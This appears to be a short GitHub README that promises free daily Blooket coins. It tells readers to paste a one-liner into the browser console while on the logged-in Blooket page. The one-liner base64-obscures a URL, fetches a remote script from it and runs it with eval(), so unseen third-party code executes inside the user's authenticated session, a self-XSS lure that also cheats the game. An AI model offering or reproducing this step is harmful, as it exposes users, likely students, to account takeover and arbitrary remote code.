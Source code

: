 # Free-coins-for-blooket
500 coins per day for free     




Step 1: Open Blooket and go to inspect.
Step 2: Copy the code at the bottom of the page.
Step 3: Paste the code in the console after inspecting the page.
Step 4: type in 500 into the box that appears.
Step 5: Re-load the page.
Step 6: Enjoy!



The code is below.

    fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))

